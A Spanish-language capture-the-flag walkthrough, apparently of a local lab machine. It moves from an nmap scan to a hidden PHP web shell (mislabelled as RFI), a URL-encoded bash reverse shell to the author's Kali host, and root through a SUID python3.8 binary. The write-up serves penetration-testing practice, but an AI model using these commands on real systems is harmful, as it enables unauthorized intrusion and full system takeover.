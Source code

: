 Escaneo de puertos con Nmap
```
nmap -p- -sC -sV -sS --min-rate 5000 -n -vvv -Pn 172.17.0.2 -oN escaneo
```

![](../../../Images/Pasted%20image%2020251030200715.png)

Observo lo que corre por el puerto 80:

![](../../../Images/Pasted%20image%2020251030200748.png)

Revisando el código fuente de esta página web al final de la primera línea me encuentro con:

![](../../../Images/Pasted%20image%2020251030201336.png)

Accederé a este posible directorio /hidden/.shell.php

![](../../../Images/Pasted%20image%2020251030201439.png)

Es una página en blanco 

No encontré nada mas relevante lo único que se me ocurre es probar en esta página si existe una RFI (Remote File Inclusion), pero me falta el parámetro principal para ver si esta parte de la web es vulnerable, la encontraré con Wfuzz
```
wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u 'http://172.17.0.2/hidden/.shell.php?FUZZ=whoami' --hl 0
```

![](../../../Images/Pasted%20image%2020251030201952.png)

Ese parámetro que me falta es cmd

Procedo a explotar la RFI, por ejemplo con el comando "whoami", para ver el usuario que sería en la máquina:

![](../../../Images/Pasted%20image%2020251030202154.png)

Y efectivamente me respondió

Ya teniendo forma de comunicarme con la máquina procederé a pasarle como comando una Reverse Shell que apunte hacia mi Kali, pero primero Urlencodearé el comando para que la pagina web me la reconozca y sea exitosa la conexión me ayudaré de Burpsuite para ello:

![](../../../Images/Pasted%20image%2020251030203429.png)

```
bash -c "bash -i >& /dev/tcp/192.168.1.35/443 0>&1"

%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%33%35%2f%34%34%33%20%30%3e%26%31%22
```

![](../../../Images/Pasted%20image%2020251030203505.png)

La página se queda "pensando", me pongo a la escucha con Netcat:

![](../../../Images/Pasted%20image%2020251030203545.png)

Y recibo exitosamente la conexión, ahora estoy dentro de la máquina

Tratamiento de la TTY:
```
script /dev/null -c bash 
Ctrl z
stty raw -echo; fg 
reset xterm 
export SHELL=bash
export TERM=xterm
```

![](../../../Images/Pasted%20image%2020251030203713.png)

![](../../../Images/Pasted%20image%2020251030203734.png)

## ESCALADA DE PRIVILEGIOS

Observo los binarios que contiene esta página:
```
find / -perm -4000 -ls 2>/dev/null
```

![](../../../Images/Pasted%20image%2020251030204121.png)

Me llama la atención el binario Python3.8

Ahora procederé a mirar en GTFOBins como puedo escalar con este binario en una SUID:

![](../../../Images/Pasted%20image%2020251030204145.png)

Lo ejecuto:
```
 /usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![](../../../Images/Pasted%20image%2020251030204308.png)

Y listo, ya soy ROOT
